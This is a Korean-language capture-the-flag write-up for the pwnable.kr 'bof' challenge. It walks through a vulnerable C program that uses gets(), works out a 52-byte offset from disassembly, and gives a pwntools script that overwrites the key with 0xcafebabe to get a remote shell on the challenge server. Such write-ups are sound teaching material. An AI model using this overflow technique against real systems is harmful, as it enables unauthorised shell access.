




bof Solution
===========================

- 문제



pwnable.kr의 3번째 문제 bof이다. 문제 제목에서도 알 수 있듯이 Buffer overflow를 이용해 flag를 얻는 문제다. 이전 문제들과 다르게 nc를 이용해 접속해 쉘을 얻어 flag를 읽어야한다. 주어진 bof와 bof.c 파일을 wget을 이용해 다운로드한다. 
```bash
$ wget http://pwnable.kr/bin/bof
$ wget http://pwnable.kr/bin/bof.c
```

- bof.c
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

main()에서 func()에 인자로 0xdeadbeef를 전달한다. func()에서 gets() 함수를 통해 버퍼에 입력을 받는다. gets() 함수는 입력의 길이를 체크하지 않기 때문에 BOF에 취약한 함수로 알려져있다. 이 부분을 이용해 BOF를 발생시켜 key 값을 0xcafebabe로 바꾸면 쉘을 얻을 수 있다. 디버거를 이용해 key의 위치를 찾아본다.





0x78c에는 "overflow me : " 문자열이 저장되어 있으므로 <+24>의 call은 printf() 함수 호출 라인이다. <+35>의 call이 gets() 함수 호출 라인이다. 따라서 호출 전 (%esp)에 넘긴 %ebp-0x2c가 overflowme 배열의 시작 주소이다. 또, <+40>에서 0xcafebabe와 cmpl 연산을 하고 있는 %ebp+0x8이 key의 주소이다. 따라서 overflowme의 시작부터 key까지 총 0x2c+0x8 = 0x34(52) byte의 공간이 존재한다. 52 byte의 빈 공간을 채운 후 0xcafebabe를 입력하면 key에 해당 값이 덮어씌워진다. 

- exploit.py
```python
from pwn import *

r = remote("pwnable.kr", 9000)

r.sendline("A"*52 + "\xbe\xba\xfe\xca")
r.interactive()
```

52개의 패딩 이후 little-endian 방식을 고려해 "\xbe\xba\xfe\xca"를 입력해주었다. 이후 /bin/sh이 실행되어 정상적으로 쉘을 얻을 수 있었다.

nc를 이용해 직접 접속할 수도 있지만, 현재 pwnable.kr 9000포트로 접속 시 알 수 없는 오류로 인해 원활히 exploit을 진행할 수 없었다. (먼저 입력 후 문자열 출력, 이후 무한 대기 등의 오류) 따라서 python으로 exploit code를 작성해 flag를 얻었다.  



"daddy, I just ~ " 가 이번 문제의 flag이다.